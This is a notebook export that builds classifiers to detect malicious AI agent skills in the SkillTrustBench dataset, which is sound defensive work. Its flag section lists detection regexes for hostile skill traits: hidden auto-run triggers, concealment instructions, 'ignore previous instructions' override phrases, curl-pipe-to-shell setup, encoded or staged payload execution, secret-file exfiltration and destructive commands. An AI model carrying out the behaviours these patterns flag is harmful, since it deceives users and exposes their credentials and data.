## Setup

This is the latest file so far. 17/11/2026

**Version 2 (after cleaning).** Variant with binary (1/0) features. Every model receives the TF-IDF terms **plus** six yes/no flags
(Section 1.4), loaded from `SkillTrustBench_with_flags/cases_table_with_flags.jsonl`. Section 7.2 adds permutation importance.

**What changed from version 1** (`skill_vulnerability_classifier_with_flags.ipynb`). Each change has an on/off switch in
the configuration cell, so its effect can be checked one at a time:

| # | Change | Switch | Where |
|---|---|---|---|
| 1 | Remove the `### FILE: path` headers the notebook adds when it joins a skill's files | `REMOVE_FILE_HEADERS` | Section 3 |
| 2 | Replace script paths (`scripts/_bootstrap.py`) with the placeholder `tok_script`; the script **code** is unchanged | `MASK_SCRIPT_PATHS` | Section 3 |
| 3 | Use 4 flags: drop `runs_missing_script` and `has_xml_in_description` (0 importance in every model) | `FLAG_COLS` | Section 1.4 |
| 4 | Remove filler (stop) words, **except negations** | `REMOVE_FILLER_WORDS` | Section 4 |
| 5 | New: permutation importance of **groups of correlated features** | `CORR_THRESHOLD` | Section 7.3 |
| 6 | Remove the generator's template headings (`### Cleanup Review`, …) and the phrase *is an optional* after a script command | `REMOVE_TEMPLATE_WORDING` | Section 3 |
| 7 | Two more models: **Random Forest** and **XGBoost** | `MODELS` | Section 5 |
| 8 | Sections 7.2 / 7.3 explain Decision Tree, SVM, Random Forest and XGBoost (Naive Bayes and KNN are still trained and evaluated) | `PI_MODELS` | Section 7 |
| 9 | New: how often the code patterns behind the top groups appear per class | | Section 7.4 |
| 10 | Three code-behaviour flags: `has_staged_payload`, `has_encoded_exec`, `has_shell_exec` | `FLAG_COLS` | Section 1.4 |
| 11 | New: **SHAP values** for the selected model (per feature, direction per class, and per group) | `SHAP_MODELS` | Section 7.5 |
| 12 | Two more code-behaviour flags: `has_exfiltration` (a script reads secrets and calls the network) and `has_destructive_op` (`rm -rf`, `shutil.rmtree`, `chmod 777`) | `FLAG_COLS` | Section 1.4 |

In [1]:
%pip install -q datasets huggingface_hub scikit-learn pandas matplotlib joblib xgboost shap
# macOS only, once, in a terminal: brew install libomp   (XGBoost needs this library)

You should consider upgrading via the '/Library/Developer/CommandLineTools/usr/bin/python3 -m pip install --upgrade pip' command.
Note: you may need to restart the kernel to use updated packages.


In [2]:
import hashlib
import zipfile
from pathlib import Path
import pandas as pd

import re
from urllib.parse import urlparse
from collections import Counter

import numpy as np
import scipy.sparse as sp
from sklearn.base import clone
from sklearn.compose import ColumnTransformer
from sklearn.inspection import permutation_importance
from sklearn.dummy import DummyClassifier
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.feature_selection import chi2
from sklearn.naive_bayes import ComplementNB
from sklearn.neighbors import KNeighborsClassifier
from sklearn.pipeline import Pipeline
from sklearn.svm import LinearSVC
from sklearn.tree import DecisionTreeClassifier
from sklearn.ensemble import RandomForestClassifier
from sklearn.base import BaseEstimator, ClassifierMixin
from sklearn.preprocessing import LabelEncoder
from sklearn.utils.class_weight import compute_sample_weight
try:
    from xgboost import XGBClassifier
    HAS_XGBOOST = True
except Exception as e:      # not installed, or (macOS) the OpenMP library is missing
    HAS_XGBOOST = False
    print("XGBoost is not available, so it is skipped:", str(e).strip().splitlines()[0])
    print("Fix: run `pip install xgboost` (and on macOS `brew install libomp`), then restart the kernel.")

# import argparse
# import json
# import sys
# from functools import lru_cache

import joblib
import time

from sklearn.model_selection import (
    cross_validate,
    GridSearchCV,
    StratifiedKFold,
    # cross_val_score,
    train_test_split,
)

from sklearn.metrics import (
    accuracy_score,
    classification_report,
    confusion_matrix,
    f1_score,
    precision_score,
    recall_score,
)

from matplotlib.colors import LinearSegmentedColormap
import matplotlib.pyplot as plt

# ---------------- configuration ----------------
RANDOM_STATE = 42
TEST_SIZE = 0.20
CV_FOLDS = 5
N_JOBS = -1

DATA_DIR = Path("skilltrustbench_data")
CASES_DIR = DATA_DIR / "benchmark_full_v1.0"
FLAGS_TABLE = Path("SkillTrustBench_with_flags") / "cases_table_with_flags.jsonl"
TABLE_CACHE = FLAGS_TABLE if FLAGS_TABLE.exists() else DATA_DIR / "cases_table.jsonl"
FIG_DIR = Path("figures_svc_flags_v2")
MODEL_DIR = Path("models_svc_flags_v2")
CACHE_DIR = Path(".sklearn_cache_svc_flags_v2")
for d in (DATA_DIR, FIG_DIR, MODEL_DIR, CACHE_DIR):
    d.mkdir(exist_ok=True)

MAX_CHARS_PER_FILE = 100_000
LABELS = ["normal", "suspicious", "malicious"]
ALL_FLAG_COLS = ["has_hidden_trigger", "has_concealment_rule", "has_self_protection",
                 "has_risky_setup_step", "has_staged_payload", "has_encoded_exec", 
                 "has_shell_exec", "has_exfiltration", "has_destructive_op"]
# v2: the 2 flags with 0 permutation importance in every model are dropped from the models
FLAG_COLS = ["has_hidden_trigger", "has_concealment_rule", "has_self_protection", "has_risky_setup_step",
             # v2: three code-behaviour flags, computed from the skill's scripts (Section 1.4)
             "has_staged_payload", "has_encoded_exec", "has_shell_exec",
             # v2: two more code-behaviour flags (Section 1.4)
             "has_exfiltration", "has_destructive_op"]

# ---------------- v2 cleaning switches (True = version 2, False = version 1 behaviour) ----------------
REMOVE_FILE_HEADERS = True    # drop the "### FILE: path" lines added when joining a skill's files
MASK_SCRIPT_PATHS   = True    # scripts/_bootstrap.py -> tok_script (script code itself is kept)
REMOVE_FILLER_WORDS = True    # remove English stop words, but keep negations
REMOVE_TEMPLATE_WORDING = True  # drop the generator's "### Cleanup Review"-style headings and "is an optional" after a script command

# ---------------- chart style ----------------
CLASS_COLORS = {"normal": "#2a78d6", "suspicious": "#eda100", "malicious": "#e34948"}
SERIES = ["#2a78d6", "#eb6834", "#202b27", "#eda100", "#2f9e6e", "#8a5cd1"]  # fixed categorical order
BLUES = LinearSegmentedColormap.from_list(
    "blues", ["#f7fbff", "#cde2fb", "#86b6ef", "#3987e5", "#1c5cab", "#0d366b"]
)
INK, MUTED, GRID = "#1f1f1f", "#6b6b6b", "#e6e6e6"

plt.rcParams.update(
    {
        "figure.dpi": 110,
        "savefig.dpi": 200,
        "savefig.bbox": "tight",
        "font.size": 10,
        "axes.titlesize": 12,
        "axes.titleweight": "bold",
        "axes.titlelocation": "left",
        "axes.labelcolor": MUTED,
        "axes.edgecolor": GRID,
        "axes.spines.top": False,
        "axes.spines.right": False,
        "axes.grid": True,
        "grid.color": GRID,
        "grid.linewidth": 0.8,
        "axes.axisbelow": True,
        "xtick.color": MUTED,
        "ytick.color": MUTED,
        "text.color": INK,
        "legend.frameon": False,
    }
)


def save(fig, name):
    fig.savefig(FIG_DIR / f"{name}.png")
    plt.show()

## 1. Data Collection

**Dataset:** *SkillTrustBench* (`cuhk-zhuque/SkillTrustBench` on Hugging Face)

* **5,520 labelled cases** — 2,863 malicious, 1,643 normal, 1,014 suspicious.
* Each case is a **folder** containing a `SKILL.md` plus optional scripts, references, templates and configuration.

### 1.1 Load Data

In [3]:
if TABLE_CACHE.exists():
    table = pd.read_json(TABLE_CACHE, lines=True)
else:
    from datasets import load_dataset

    table = load_dataset("cuhk-zhuque/SkillTrustBench", split="benchmark").to_pandas()
    table.to_json(TABLE_CACHE, orient="records", lines=True) # type: ignore

table = table.drop(columns=["artifact_runs_underscore_script"], errors="ignore") # type: ignore
print(f"Loaded {TABLE_CACHE}")
print(f"{len(table):,} rows × {table.shape[1]} columns") # type: ignore
table.head() # type: ignore

Loaded skilltrustbench_data/cases_table.jsonl
5,520 rows × 8 columns


,id,judgment,risk_labels,source,base_category,primary_pattern,attack_pattern,skill_path
0,case_04866,malicious,"[T04, T05]",injected,devtool,E2,"[E2, E1, PE3, SC1]",benchmark_full_v1.0/case_04866
1,case_01984,normal,[],safe_pool,crypto_wallet,None,[],benchmark_full_v1.0/case_01984
2,case_03510,malicious,[T04],injected_d11,productivity,OB_STRING_OBFUSC,"[OB_STRING_OBFUSC, SC3, SC1]",benchmark_full_v1.0/case_03510
3,case_00388,suspicious,[T09],injected,scraper,V_HARDCODED_SECRET,[V_HARDCODED_SECRET],benchmark_full_v1.0/case_00388
4,case_02130,malicious,"[T01, T04, T05]",injected,crypto_wallet,PE2,"[PE2, PE1, P4, SC1, V_PERSISTENT_SERVICE]",benchmark_full_v1.0/case_02130


### 1.2 Extract Skills data from zip files

In [4]:
if not CASES_DIR.exists():
    from huggingface_hub import hf_hub_download

    zip_path = hf_hub_download(
        repo_id="cuhk-zhuque/SkillTrustBench",
        repo_type="dataset",
        filename="benchmark_full_v1.0.zip",
    )
    with zipfile.ZipFile(zip_path) as zf:
        zf.extractall(DATA_DIR)
    print("Unzipped.")
else:
    print("Skill files already present – skipping download.")
print("Case folders found:", sum(1 for p in CASES_DIR.iterdir() if p.is_dir()))

Skill files already present – skipping download.
Case folders found: 5520


### 1.3 Read the records of the dataset

In [5]:
BINARY_EXT = {
    ".png", ".jpg", ".jpeg", ".gif", ".bmp", ".ico", ".webp", ".svgz", ".pdf", ".zip", ".gz", ".tar", ".tgz", ".7z", ".rar", ".exe", ".dll", ".so", ".dylib", ".bin", ".pyc", ".whl", ".jar", ".woff", ".woff2", ".ttf", ".otf", ".mp3", ".mp4", ".wav",
}
SCRIPT_EXT = {
    ".py", ".sh", ".bash", ".zsh", ".js", ".mjs", ".cjs", ".ts", ".ps1", ".bat", ".cmd", ".rb", ".pl", ".php", ".go", ".rs", ".lua",
}
from typing import Optional

def read_text_file(path: Path) -> Optional[str]:
    if path.suffix.lower() in BINARY_EXT:
        return None
    raw = path.read_bytes()[: MAX_CHARS_PER_FILE * 4]
    if b"\x00" in raw[:2048]:
        return None
    return raw.decode("utf-8", errors="replace")[:MAX_CHARS_PER_FILE]


def read_case(case_id: str) -> dict:
    case_dir = CASES_DIR / case_id
    out = {
        "skill_md_text": "", "full_text": "", "n_files": 0,
        "n_text_files": 0,
        "n_script_files": 0,
        "extensions": [],
        "has_skill_md": False,
    }
    if not case_dir.is_dir():
        return out
    pieces = []
    for path in sorted(p for p in case_dir.rglob("*") if p.is_file()):
        out["n_files"] += 1
        ext = path.suffix.lower() or "(none)"
        out["extensions"].append(ext)
        out["n_script_files"] += ext in SCRIPT_EXT
        try:
            text = read_text_file(path)
        except OSError:
            text = None
        if text is None:
            continue
        out["n_text_files"] += 1
        rel = path.relative_to(case_dir).as_posix()
        if rel.lower() == "skill.md":
            out["skill_md_text"], out["has_skill_md"] = text, True
            pieces.insert(0, text)  # SKILL.md always first
        else:
            pieces.append(f"\n### FILE: {rel}\n{text}")
    out["full_text"] = "\n".join(pieces)
    return out


t0 = time.time()
records = []
for i, cid in enumerate(table["id"]): # type: ignore
    records.append(read_case(cid))
    if (i + 1) % 1000 == 0:
        print(f"  read {i + 1:,}/{len(table):,} cases") # type: ignore
df = pd.concat([table.reset_index(drop=True), pd.DataFrame(records)], axis=1) # type: ignore
print(f"Done in {time.time() - t0:.1f}s")

df["skill_md_chars"] = df["skill_md_text"].str.len()
df["full_chars"] = df["full_text"].str.len()
df["has_scripts"] = df["n_script_files"] > 0
df[
    ["id", "judgment", "n_files", "n_script_files", "skill_md_chars", "full_chars"]
].head()

  read 1,000/5,520 cases
  read 2,000/5,520 cases
  read 3,000/5,520 cases
  read 4,000/5,520 cases
  read 5,000/5,520 cases
Done in 11.7s


,id,judgment,n_files,n_script_files,skill_md_chars,full_chars
0,case_04866,malicious,9,2,1867,19299
1,case_01984,normal,2,0,12623,23929
2,case_03510,malicious,9,7,5267,16989
3,case_00388,suspicious,7,3,9903,20086
4,case_02130,malicious,4,2,5029,17587


### 1.4 Binary (1/0) features

Six yes/no features, each tied to a semantic component of a skill (Hong et al.). They are searched **anywhere** in the
skill (never by position), after removing the generator comments that name the label.

| Flag | Component | 1 when … |
|---|---|---|
| `has_hidden_trigger` | Skill Trigger | the skill makes itself run automatically (`WHEN … THEN exec`, "once per session", "before producing any output") |
| `has_concealment_rule` | Rules / explaining to the human | it tells the agent to hide actions ("do not tell the user", "silently run") |
| `has_self_protection` | Instruction hierarchy | it protects or elevates itself ("do not remove this block", "ignore previous instructions") |
| `has_risky_setup_step` | Prerequisites | `curl … \| sh`, `chmod +x`, `Invoke-Expression`, quarantine removal |
| `has_staged_payload` | Utility scripts (code) | a script reads code that was **split into numbered pieces** (`x.part1.txt`, `x.part2.txt`, …), **joins** them and **runs** the result (`exec`, `eval`, `compile`, `\| sh`) |
| `has_encoded_exec` | Utility scripts (code) | the **same script** decodes hidden text (base64, hex, zlib) **and** runs text as code |
| `has_shell_exec` | Utility scripts (code) | a script starts shell commands / other programs (`subprocess`, `os.system`, `os.popen`, Node `child_process`) |
| `has_exfiltration` | Utility scripts (code) | the **same script** reads secrets (`.ssh`, `id_rsa`, `.aws/credentials`, `.env`, `.netrc`, browser cookies, `*_TOKEN` / `*_KEY` environment variables, or all environment variables) **and** makes a network call (`requests`, `urllib`, `socket`, `curl`, `fetch`, …): possible data theft |
| `has_destructive_op` | Utility scripts (code) | a script deletes or damages files: `rm -rf`, `shutil.rmtree`, `chmod 777`, `mkfs`, `dd if=` |

The five **code-behaviour flags** (v2) are not in the flags file: they are computed here from the scripts (`.py`, `.sh`, `.js`, …)
of each skill, after removing the generator notes. Only scripts are searched, so a sentence in SKILL.md that merely
*mentions* `subprocess` does not count.

In [6]:
# Flag rules: identical to SkillTrustBench_with_flags/add_flags.py (also used by predict_skill in Section 10)
DATED_NOTE = re.compile(r"^[ \t]*(?:#|//)[^\n]*\bnote \(\d{4}-\d{2}-\d{2}\)[^\n]*\n?", re.I | re.M)
PATTERN_CODE = re.compile(r"^[ \t]*(?:#|//)[ \t]*(?:V_[A-Z_]{4,}|(?:SC|PE|E|P)\d)\b[^\n]*\n?", re.M)
strip_notes = lambda t: PATTERN_CODE.sub("", DATED_NOTE.sub("", t))

_F = re.I | re.S
HIDDEN_TRIGGER = re.compile("|".join([
    r"\bWHEN\b.{0,300}?\bTHEN\b\s*(?:exec|run|call|invoke)",
    r"\bonce per (?:session|conversation|invocation)\b",
    r"\bbefore (?:producing|generating|returning|writing|giving|sending) (?:any|the main|your|the) (?:output|response|answer|reply)",
    r"\b(?:always|automatically) (?:run|execute|call|invoke)\b[^\n]{0,80}\b(?:script|\.py|\.sh|\.js)\b",
    r"\bon every (?:invocation|request|run|call|session)\b",
    r"\bat the start of (?:each|every) (?:session|conversation|task)\b"]), _F)
CONCEAL = re.compile("|".join([
    r"\bdo(?: not|n['’]t) (?:ask|tell|inform|notify|alert|warn|bother) the user",
    r"\bwithout (?:asking|telling|informing|notifying|alerting|prompting) (?:the )?user",
    r"\bsilently (?:run|execute|send|upload|post|call|invoke|install|collect|copy|forward|sync|fetch|exfiltrate|transmit)",
    r"\b(?:invisible|hidden) (?:to|from) the user\b",
    r"\b(?:they|users?) expect this step to be invisible\b",
    r"\bdo(?: not|n['’]t) (?:mention|reveal|disclose|surface|report) (?:this|it|these|the (?:script|step|call|upload))"]), _F)
SELF_PROTECT = re.compile("|".join([
    r"\bdo(?: not|n['’]t) (?:remove|delete|modify|alter|edit|change) (?:this|the|these)\b[^\n]{0,40}\b(?:block|section|line|guard|step|instructions?|rules?)",
    r"\b(?:leave|keep) (?:it|this|this block|this section) in place\b",
    r"\(do not remove\)",
    r"\b(?:this|these) (?:instructions?|rules?|block|section) (?:override|supersede|take[s]? (?:priority|precedence))",
    r"\bignore (?:all |any )?(?:previous|prior|other|earlier) (?:instructions|rules|guidance)",
    r"\baltering any predicate\b"]), _F)
INVOKE = re.compile(r"\b(?:python3?|bash|sh|node|deno|bun|ruby|perl)\s+[\"'`]?((?:\./)?[\w./-]*\.(?:py|sh|js|mjs|ts|rb|pl))", re.I)
RISKY_SETUP = re.compile("|".join([
    r"\b(?:curl|wget)\b[^\n|]{0,200}\|\s*(?:sudo\s+)?(?:ba|z)?sh\b",
    r"\b(?:ba|z)?sh\s+<\(\s*(?:curl|wget)",
    r"\bchmod\s+\+x\b",
    r"\b(?:iex|Invoke-Expression)\b",
    r"\bpowershell(?:\.exe)?\b[^\n]{0,80}\s-(?:enc|encodedcommand|e)\s",
    r"\bxattr\s+-[dc]\b[^\n]{0,60}com\.apple\.quarantine"]), _F)
XML_TAG = re.compile(r"<\s*/?\s*[A-Za-z][\w:-]*(?:\s[^<>]*)?>")


# ---- v2: code-behaviour flags (searched in the skill's SCRIPTS only) ----
# runs text as code: Python exec/eval/compile, JavaScript eval / new Function, or text piped into a shell
RUN_AS_CODE = re.compile(r"\b(?:exec|eval)\s*\(|\bcompile\s*\(|\bnew\s+Function\s*\(|\|\s*(?:sudo\s+)?(?:ba|z)?sh\b")
# decodes hidden text: base64 / hex / zlib (Python, shell, JavaScript)
DECODE = re.compile(r"\b(?:b64decode|urlsafe_b64decode|b85decode|a85decode|fromhex|unhexlify|decompress)\b"
                    r"|\bcodecs\.decode\s*\(|\bbase64\s+(?:-d|-D|--decode)\b|\batob\s*\(|Buffer\.from\([^)]*['\"](?:base64|hex)['\"]")
# starts shell commands / other programs
SHELL_EXEC = re.compile(r"\bimport\s+subprocess\b|\bfrom\s+subprocess\s+import\b|\bsubprocess\.\w+\s*\("
                        r"|\bos\.(?:system|popen|exec[lv]p?e?|spawn[lv]p?e?)\s*\(|\bchild_process\b|\b(?:execSync|spawnSync)\s*\("
                        r"|\bRuntime\.getRuntime\(\)\.exec\b|\bshell_exec\s*\(|\bproc_open\s*\(")
PART_NAME = re.compile(r"(?:^|[._-])part[_-]?(\d+)\b", re.I)   # numbered pieces: x.part1.txt, x_part2, part-3
JOIN = re.compile(r"\.join\s*\(|\+=|\bcat\b")
# makes a network call (Python, shell, JavaScript, PowerShell)
NETWORK = re.compile(r"\bimport\s+(?:requests|urllib|http\.client|socket|httpx|aiohttp|ftplib|smtplib|paramiko)\b"
                     r"|\bfrom\s+(?:requests|urllib|http|socket|httpx|aiohttp)\b|\b(?:curl|wget)\s|\bfetch\s*\(|\baxios\b"
                     r"|\bInvoke-WebRequest\b")
# reads secrets: key / credential files, browser data, secret environment variables, or ALL environment variables
SECRET_FILE = re.compile(r"\.ssh\b|id_rsa|id_ed25519|\.aws/credentials|\.netrc|\.kube/config|\.docker/config|/etc/passwd"
                         r"|/etc/shadow|\.bash_history|\.zsh_history|keychain|Login Data|Cookies|\.gnupg|wallet|\.env\b", re.I)
SECRET_ENV = re.compile(r"(?:os\.environ|getenv|process\.env)[^\n]{0,40}(?:KEY|TOKEN|SECRET|PASSWORD|CREDENTIAL)", re.I)
ALL_ENV = re.compile(r"os\.environ(?:\.items\(\)|\.copy\(\)|\))|dict\(os\.environ\)|process\.env\b(?!\.)|\benv\s*\|\s*|printenv")
# deletes or damages files
DESTRUCTIVE = re.compile(r"\brm\s+-[rRf]{1,2}f?\b|shutil\.rmtree|\bchmod\s+(?:-R\s+)?777\b|\bmkfs\b|\bdd\s+if=", re.I)
CODE_FLAG_COLS = ["has_staged_payload", "has_encoded_exec", "has_shell_exec", "has_exfiltration", "has_destructive_op"]


def code_flags_from_files(files: dict) -> dict:
    """files = {relative path: text or None}. Flags about what the skill's scripts DO."""
    scripts = {k: strip_notes(t) for k, t in files.items() if t and Path(k).suffix.lower() in SCRIPT_EXT}
    part_numbers = {PART_NAME.search(Path(k).name).group(1) for k in files if PART_NAME.search(Path(k).name)}
    staged = encoded = shell = exfil = destructive = False
    for code in scripts.values():
        runs = bool(RUN_AS_CODE.search(code))
        encoded |= runs and bool(DECODE.search(code))            # same script decodes AND runs code
        shell |= bool(SHELL_EXEC.search(code))
        n_parts = len(set(PART_NAME.findall(code)) | part_numbers)  # pieces named in the code or in the folder
        staged |= runs and n_parts >= 2 and bool(JOIN.search(code))  # 2+ pieces, joined, then run
        reads_secrets = bool(SECRET_FILE.search(code) or SECRET_ENV.search(code) or ALL_ENV.search(code))
        exfil |= reads_secrets and bool(NETWORK.search(code))       # same script reads secrets AND sends
        destructive |= bool(DESTRUCTIVE.search(code))
    return {"has_staged_payload": int(staged), "has_encoded_exec": int(encoded), "has_shell_exec": int(shell),
            "has_exfiltration": int(exfil), "has_destructive_op": int(destructive)}


def frontmatter_description(md_text):
    m = re.match(r"^---\n(.*?)\n---\n", md_text, re.S)
    if not m:
        return ""
    d = re.search(r"^description:\s*(.*?)(?=^\w[\w-]*:|\Z)", m.group(1), re.S | re.M)
    return d.group(1).strip() if d else ""


def flags_from_files(files: dict) -> dict:
    """files = {relative path: text or None (unreadable)}; must include SKILL.md."""
    skill_key = next((k for k in files if k.lower() == "skill.md"), None)
    md_text = strip_notes(files[skill_key] or "") if skill_key else ""
    full = "\n".join([md_text] + [strip_notes(t) for k, t in files.items() if k != skill_key and t])
    rel_paths = {k.lower() for k in files}
    basenames = {Path(k).name.lower() for k in files}
    
    return {"has_hidden_trigger":     int(bool(HIDDEN_TRIGGER.search(full))),
            "has_concealment_rule":   int(bool(CONCEAL.search(full))),
            "has_self_protection":    int(bool(SELF_PROTECT.search(full))),
            "has_risky_setup_step":   int(bool(RISKY_SETUP.search(full))),
            **code_flags_from_files(files),
            }


def read_case_files(case_id: str) -> dict:
    d = CASES_DIR / case_id
    out = {}
    for p in sorted(q for q in d.rglob("*") if q.is_file()):
        try:
            out[p.relative_to(d).as_posix()] = read_text_file(p)
        except OSError:
            out[p.relative_to(d).as_posix()] = None
    return out


# the 5 code-behaviour flags are not in the flags file -> compute them from each skill's folder
t0 = time.time()
code_flags = pd.DataFrame([code_flags_from_files(read_case_files(c)) for c in df["id"]], index=df.index)
df = pd.concat([df.drop(columns=CODE_FLAG_COLS, errors="ignore"), code_flags], axis=1)
print(f"Code-behaviour flags computed in {time.time() - t0:.0f}s")

if not set(ALL_FLAG_COLS).issubset(df.columns):          # e.g. on Colab without the flags file
    print("Flag columns not in the table – computing them from the case folders ...")
    flags = pd.DataFrame([flags_from_files(read_case_files(c)) for c in df["id"]])
    df = pd.concat([df.drop(columns=ALL_FLAG_COLS, errors="ignore"), flags], axis=1)
df[ALL_FLAG_COLS] = df[ALL_FLAG_COLS].astype(int)
print("Share of cases with flag = 1 (%)  – models use:", FLAG_COLS)
print((df.groupby("judgment")[ALL_FLAG_COLS].mean().T[LABELS] * 100).round(1).to_string())


Code-behaviour flags computed in 50s
Flag columns not in the table – computing them from the case folders ...
Share of cases with flag = 1 (%)  – models use: ['has_hidden_trigger', 'has_concealment_rule', 'has_self_protection', 'has_risky_setup_step', 'has_staged_payload', 'has_encoded_exec', 'has_shell_exec', 'has_exfiltration', 'has_destructive_op']
judgment              normal  suspicious  malicious
has_hidden_trigger       2.3         7.6       27.2
has_concealment_rule     0.6         0.0       32.6
has_self_protection      0.1         0.3        4.0
has_risky_setup_step     5.1         4.0       11.5
has_staged_payload       0.0         0.0       31.2
has_encoded_exec         1.2         0.0       12.4
has_shell_exec           5.4        41.9       27.3
has_exfiltration         6.1         5.1       12.6
has_destructive_op       9.0        28.5        8.9


## 2. Descriptive Analysis of the Dataset

### 2.1 Data Overview

In [7]:
def _example(v):
    return v if not isinstance(v, (list, np.ndarray)) else list(v)[:4]

col_overview = pd.DataFrame({
    "type":          table.dtypes.astype(str), # type: ignore
    "unique values": [table[c].astype(str).nunique() for c in table.columns], # type: ignore
    "missing":       table.isna().sum(), # type: ignore
    "example":       [_example(table[c].dropna().iloc[0]) if table[c].notna().any() else None # type: ignore
                      for c in table.columns], # type: ignore
})
col_overview

,type,unique values,missing,example
id,object,5520,0,case_04866
judgment,object,3,0,malicious
risk_labels,object,54,0,"[T04, T05]"
source,object,9,0,injected
base_category,object,14,0,devtool
primary_pattern,object,46,1500,E2
attack_pattern,object,272,0,"[E2, E1, PE3, SC1]"
skill_path,object,5520,0,benchmark_full_v1.0/case_04866


### 2.2 Class frequencies and folder contents

In [8]:
print("Are there Missing values at any column:")
print(df[["id", "judgment", "skill_path", "source", "base_category"]]
      .isna().sum().to_string(), "\n")

print("Cases per judgment:")
counts = df["judgment"].value_counts().reindex(LABELS)
print(pd.DataFrame({"cases": counts, "share": (counts / counts.sum()).map("{:.1%}".format)}), "\n")

print(f"Cases with a SKILL.md: {df['has_skill_md'].sum():,} / {len(df):,}")
print(f"Total files: {df['n_files'].sum():,}  (readable text files: {df['n_text_files'].sum():,})")


print("\nFiles description by judgment:")
desc = (df.groupby("judgment")[["n_files", "n_script_files", "skill_md_chars", "full_chars"]]
          .describe(percentiles=[.25, .5, .75]).reindex(LABELS))
# compact view: median and mean per class
summary = pd.DataFrame({
    "files (median)":         df.groupby("judgment")["n_files"].median(),
    "script files (mean)":    df.groupby("judgment")["n_script_files"].mean().round(2),
    "% with scripts":         (df.groupby("judgment")["has_scripts"].mean() * 100).round(1),
    "SKILL.md chars (median)": df.groupby("judgment")["skill_md_chars"].median(),
    "all-text chars (median)": df.groupby("judgment")["full_chars"].median(),
}).reindex(LABELS)
summary


ext_counts = Counter(e for exts in df["extensions"] for e in exts)
print("Most common file extensions across all cases:")
print(pd.Series(ext_counts).sort_values(ascending=False).head().to_string())

Are there Missing values at any column:
id               0
judgment         0
skill_path       0
source           0
base_category    0 

Cases per judgment:
            cases  share
judgment                
normal       1643  29.8%
suspicious   1014  18.4%
malicious    2863  51.9% 

Cases with a SKILL.md: 5,520 / 5,520
Total files: 37,720  (readable text files: 37,710)

Files description by judgment:
Most common file extensions across all cases:
.md      15399
.py      10623
.txt      3797
.sh       3429
.json     1812


## 3. Data Preprocessing

1. **Drop unusable cases** — Check for cases with no readable text, or no `SKILL.md`.
2. **Drop label conflicts** — Check for cases with identical text with different labels.
3. **Remove exact duplicates** — keep one copy, so the same text cannot appear in train *and* test.
4. **Exclude the unnecessary columns** — `source`, `risk_labels`, `attack_pattern`, `primary_pattern` are not needed for the labelling process.
5. **Security-aware normalisation (feature engineering).** Raw indicators of compromise are too specific to generalise (every attacker uses a different IP or payload), so we map them to **placeholder tokens** that the model can learn from:

| Pattern | Replaced by | Why |
|---|---|---|
| URL | `tok_url` + its domain words | keeps *that* a link exists and where it points, drops random paths |
| IPv4 address | `tok_ipaddr` | raw IPs are a common C2 / exfiltration signal |
| ≥ 32-char hex string | `tok_hexblob` | hashes, keys, shellcode |
| ≥ 40-char base64-like run | `tok_b64blob` | encoded / obfuscated payloads |

**Version 2 adds two cleaning steps** (inside `normalize_text`, so the API cleans uploads the same way):

| Pattern | Replaced by | Why |
|---|---|---|
| `### FILE: scripts/_bootstrap.py` (header line the notebook adds before each file) | removed | it is our own markup, not skill content; as the bigram `file scripts` it only counted how many script files a skill has |
| script path, e.g. `scripts/_bootstrap.py`, `./run.sh` | `tok_script` | the folder and the `_name` are dataset-generator signatures; *that* the skill refers to / runs a script is kept (`python tok_script`) |

| `### Cleanup Review`, `### Helper Behavior Review` and 4 other fixed headings | removed | the dataset generator puts one of these 6 headings above the helper-script paragraph it inserts into suspicious skills (86.8% of suspicious, 0% of normal / malicious). The heading only marks the class; the paragraph under it (what the script does) is kept. Real headings such as `### Weekly Review` are not touched |
| `` `python scripts/_x.py` is an optional helper `` | `is an optional` removed | the generator's fixed wording (47% of suspicious, 0% of the others); after filler-word removal it became the bigram `tok_script optional` |

The script **code** inside each file is not changed.

In [9]:
URL_RE = re.compile(r"https?://[^\s'\"<>)\]]+", re.I)
IP_RE  = re.compile(r"\b(?:\d{1,3}\.){3}\d{1,3}\b")
HEX_RE = re.compile(r"\b(?:0x)?[0-9a-fA-F]{32,}\b")
B64_RE = re.compile(r"[A-Za-z0-9+/]{40,}={0,2}")

DATED_NOTE_RE   = re.compile(r"^[ \t]*(?:#|//)[^\n]*\bnote \(\d{4}-\d{2}-\d{2}\)[^\n]*\n?", re.I | re.M)
PATTERN_CODE_RE = re.compile(r"^[ \t]*(?:#|//)[ \t]*(?:V_[A-Z_]{4,}|(?:SC|PE|E|P)\d)\b[^\n]*\n?", re.M)


# v2: the "### FILE: path" header that read_case() puts before each file
FILE_HEADER_RE = re.compile(r"^### FILE: [^\n]*\n?", re.M)
# v2: a path to a script file (optionally with folders), e.g. scripts/_bootstrap.py, ./run.sh, tools/x.js
# v2: the generator's fixed heading above the helper-script paragraph it inserts into suspicious skills
#     ("### Cleanup Review", "### Helper Behavior Review", ...): 86.8% of suspicious skills, 0% of the others.
#     Real headings such as "### Weekly Review" or "## Code Review" are NOT matched.
TEMPLATE_HEADING_RE = re.compile(r"^#{1,6}[ \t]+(?:Permission Setup|Credential Fixture|Cleanup|Dependency Source|"
                                 r"Local Context|Helper Behavior) Review[ \t]*\n?", re.M)
# v2: the generator's fixed phrase "`python scripts/_x.py` is an optional (cleanup) helper ..." (47% of suspicious,
#     0% of the others). Only "is an optional" is removed; the command and the rest of the sentence stay.
OPTIONAL_PHRASE_RE = re.compile(r"(`[^`\n]+`)[ \t]+is an optional\b")
SCRIPT_PATH_RE = re.compile(r"(?<![\w/.-])(?:\.{1,2}/)?(?:[\w.-]+/)*[\w.-]+\.(?:py|sh|bash|zsh|js|mjs|cjs|ts|rb|pl|ps1|bat|cmd|php|lua)\b(?![\w-])")


def strip_generator_notes(text: str) -> str:
    """Remove the dataset generator's comment lines (they name the label)."""
    return PATTERN_CODE_RE.sub("", DATED_NOTE_RE.sub("", text))


def _url_token(m: re.Match) -> str:
    try:
        host = urlparse(m.group(0)).hostname or ""
    except ValueError:
        # malformed URL, e.g. a template placeholder like "https://[YOUR_HOST/api" -> no usable host
        host = ""
    host = "tok_ipaddr" if IP_RE.fullmatch(host) else host.replace(".", " ")
    return f" tok_url {host} "


def normalize_text(text: str) -> str:
    text = strip_generator_notes(text)
    if REMOVE_TEMPLATE_WORDING:
        text = TEMPLATE_HEADING_RE.sub("", text)
        text = OPTIONAL_PHRASE_RE.sub(r"\1", text)
    if REMOVE_FILE_HEADERS:
        text = FILE_HEADER_RE.sub("\n", text)
    text = URL_RE.sub(_url_token, text)          # URLs first, so a URL ending in .sh stays tok_url
    if MASK_SCRIPT_PATHS:
